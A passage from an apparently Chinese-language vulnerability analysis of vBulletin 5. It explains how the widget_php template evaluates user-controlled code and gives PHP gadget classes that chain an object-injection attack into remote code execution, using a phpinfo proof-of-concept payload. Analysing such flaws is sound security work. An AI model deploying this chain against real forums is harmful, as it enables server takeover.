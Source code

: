 ##2.4. widget_php模版

下面是`widget_php`模版的部分代码：
```php
...//ignore
if (!empty($widgetConfig['code']) AND !vB::getDatastore()->getOption('disable_php_rendering')) {
			$final_rendered .= '
	' . ''; $evaledPHP = vB_Template_Runtime::parseAction('bbcode', 'evalCode', $widgetConfig['code']); $final_rendered .= '' . '
	' . $evaledPHP . '
';
		} else {
	$final_rendered .= '
	' . ''; if ($user['can_use_sitebuilder']) {
			$final_rendered .= '
		<span class="note">' . vB_Template_Runtime::parsePhrase("click_edit_to_config_module") . '</span>
	';
		} else {
	$final_rendered .= '';
...//ignore
```
在这个模版内，将会执行`$widgetConfig['code']`的代码。（类似：`eval($widgetConfig['code'])`）

我们可以直接通过在2.3里的变量覆盖，达到执行任意代码的目的。

## 3.利用

### 3.1.vB5_Template类：

* 覆盖`$this->registered`：用在`extract($this->registered, EXTR_OVERWRITE | EXTR_REFS)`，覆盖模版内的变量（`widget_php`模版内的`$widgetConfig['code']`变量）

* 覆盖`$this->template`：用在`$templateCode = $templateCache->getTemplate($this->template)`，我们要获取`widget_php`模版的代码。

```php
class vB5_Template{
        protected $registered = array();
        protected $template = '';
        public function __construct()
        {
                $this->registered = array("widgetConfig"=>array("code"=>"phpinfo();die();"));
                $this->template = 'widget_php';
        }
}
```

### 3.2.vB_View_AJAXHTML类
* 覆盖`$this->content`： 覆盖为上面我们修改过的`vB5_Template`的实例化对象（new vB5_Template），这样我们才能调用`vB5_Template`内的`render()`方法（`$this->content->render()`）。

```php
class vB_View_AJAXHTML{
        protected $content;
        public function __construct()
        {
                $this->content = new vB5_Template();
        }
}
```
